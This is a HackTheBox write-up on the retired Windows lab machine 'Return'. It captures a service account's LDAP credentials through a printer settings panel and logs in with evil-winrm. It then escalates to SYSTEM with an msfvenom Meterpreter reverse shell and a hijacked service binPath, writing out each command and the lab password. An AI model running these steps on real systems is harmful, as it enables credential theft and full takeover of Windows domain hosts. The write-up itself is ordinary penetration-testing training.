


🧠 HackTheBox - Return Walkthrough¶
Table of Contents¶
- 🧠 HackTheBox - Return Walkthrough
- Table of Contents
- Overview
- About
- TL;DR
- SETUP / NOTES
- RECON
- ENUMERATION
- EXPLOIT
- PRIVILEGE ESCALATION
- LESSONS LEARNED
- References
Overview¶
Machine: Return
Difficulty: Easy
OS: Windows
Points: 0
Status: Retired
About¶
This walkthrough covers the full exploitation of the retired HackTheBox machine 'Return'. It is aimed at beginners but also covers privilege escalation steps and explains key tools and credentials used throughout the attack.
TL;DR¶
-
Scan and enumerate ports (Nmap, enum4linux).
-
nteract with the printer web panel to capture credentials via LDAP listener.
-
Connect with Evil-winRM using captured creds (svc-printer user).
-
Exploit Server Operators group by uploading a Meterpreter shell and modifying service binary path.
-
Use Metasploit to catch SYSTEM shell and grab root flag.
SETUP / NOTES¶
- Nmap, Enum4linux, Netcat, Evil-winRM, Metasploit.¶
RECON¶
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-10-04 16:39 UTC
Nmap scan report for 10.129.102.16
Host is up (0.012s latency).
PORT STATE SERVICE VERSION
🟢[53/tcp open domain Simple DNS Plus[0m
🟢[80/tcp open http Microsoft IIS httpd 10.0[0m
|_http-server-header: Microsoft-IIS/10.0
| http-methods:
|_ Potentially risky methods: TRACE
|_http-title: HTB Printer Admin Panel
🟢[88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2025-10-04 16:58:44Z)[0m
🟢[135/tcp open msrpc Microsoft Windows RPC[0m
🟢[139/tcp open netbios-ssn Microsoft Windows netbios-ssn[0m
🟢[389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)[0m
🟢[445/tcp open microsoft-ds?[0m
🟢[464/tcp open kpasswd5?[0m
🟢[593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0[0m
🟢[636/tcp open tcpwrapped[0m
🟢[3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)[0m
🟢[3269/tcp open tcpwrapped[0m
🟢[5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)[0m
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
🟢[9389/tcp open mc-nmf .NET Message Framing[0m
🟢[47001/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)[0m
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
🟢[49664/tcp open msrpc Microsoft Windows RPC[0m
🟢[49665/tcp open msrpc Microsoft Windows RPC[0m
🟢[49666/tcp open msrpc Microsoft Windows RPC[0m
🟢[49667/tcp open msrpc Microsoft Windows RPC[0m
🟢[49671/tcp open msrpc Microsoft Windows RPC[0m
🟢[49674/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0[0m
🟢[49675/tcp open msrpc Microsoft Windows RPC[0m
🟢[49677/tcp open msrpc Microsoft Windows RPC[0m
🟢[49680/tcp open msrpc Microsoft Windows RPC[0m
🟢[49697/tcp open msrpc Microsoft Windows RPC[0m
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| smb2-security-mode:
| 3:1:1:
|_ Message signing enabled and required
|_clock-skew: 18m34s
| smb2-time:
| date: 2025-10-04T16:59:42
|_ start_date: N/A
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 74.54 seconds
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-10-04 16:41 UTC
Nmap scan report for 10.129.102.16
Host is up (0.018s latency).
Not shown: 92 closed udp ports (port-unreach)
PORT STATE SERVICE
🟢53/udp open domain
🟢88/udp open kerberos-sec
🟢123/udp open ntp
🟢137/udp open|filtered netbios-ns
🟢138/udp open|filtered netbios-dgm
🟢500/udp open|filtered isakmp
🟢4500/udp open|filtered nat-t-ike
🟢5353/udp open|filtered zeroconf
Nmap done: 1 IP address (1 host up) scanned in 138.69 seconds
nmap scan we see that the target is a Windows machine with port 80 IFS Internet Information Services, 455 SMB and Windows Remote Management being available on port 5985.
ENUMERATION¶
Lets enumerate further with enum4linux! A great tool that helps us get more information from Windows and Samba systems.

We get some useful information back, like that the domain name is return and the host is part of a domain not a workgroup. We will investigate the website before we take another look somewhere else.

Nothing much to see here other then a picture of a printer. It's not interactable so let's just hop in the Settings section to see if there is something usefull there.

We are greeted by the printer settings. Server Address and Server Port makes me think we can connect to it with a listener open Netcat - nc. Knowing the username svc-printer to the printer is usefull!
These devices store LDAP and SMB credentials, in order for the printer to query the user list from Active
Directory. Let's set up a listener on port 389 LDAP and ofcourse change the Server Address to your ip tun0.

We have recieved the credentials from the printer!
1edFg43012!!
EXPLOIT¶
With that being ours now, we can try to connect to the service using Evil-winRM. with classifying the -i target ip, -u username being the svc-printer and ofcourse -p password being 1edFg43012!!
evil-winrm -i 10.129.102.16 -u svc-printer -p '1edFg43012!!'

We have connection to the service!
Let's go to Desktop if the userflag is there.

And ofcourse the userflag is located in Desktop.
PRIVILEGE ESCALATION¶
Enumerating further with
- net user svc-printer
we see that the group memberships reveals that svc-printer is part of Server Operators.

More information about this is that members of this group can start and stop services. With that in mind we will modify a service binary path to obtain a reverse shell.
The best and stable way is to use msfvenom. We will use this to generate a meterpreter reverse shell executable payload for the remote host.
msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -f exe > shell-x86.exe
Using tun0 will set your ip automatically.

Great, we have made a shell! With the current Evil-winRM shell we have, we can upload the .exec to the remote host.

Next, we will use the Metasploit console to configure a listener for a reverse shell.
msfconsole
Select the multi/handler module which is used to listen from a compromised system.
exploit/multi/handler

Now we will set the payload as windows/meterpreter/reverse_tcp, this will allows for a reverse TCP connection.
set PAYLOAD windows/meterpreter/reverse_tcp
Now set up your HOST and PORT.
set LHOST tun0
set LPORT 4444
After that type run.

We will go back to our Evil-winRM connection. We will use our shell and modify the service binary path to obtain a reverse shell.
sc.exe config vss binPath="C:\Users\svc-printer\Desktop\shell.exe"

Succes!
Having our Metasploit listener up, we have a few things left to do. Let's restart vss
sc.exe stop vss
sc.exe start vss

Quickly after it's connected to your listener, type ps to list the running processes. Choose an appropriate process which is running as NT AUTHORITY\SYSTEM
After you have found the PID which is all the way on the left, type migrate <PID>.
Now that you have a connection, type shell to spawn a shell and grab the root flag.

Doing cd .. untill we are at C: we can navigate to \Users\Administrator\Desktop and find the root flag there.

Pwned!
LESSONS LEARNED¶
-
Always check memberships of service accounts.
-
Network devices can be leveraged to gain domain credentials.
-
Proper segmentation and least privilege are critical in domain environments.
References¶
-
Nmap: https://nmap.org/
-
Enum4linux: https://github.com/CiscoCXSecurity/enum4linux
-
Evil-winRM: https://github.com/Hackplayers/evil-winrm
-
Metasploit: https://www.metasploit.com/
-
HackTheBox: https://hackthebox.com/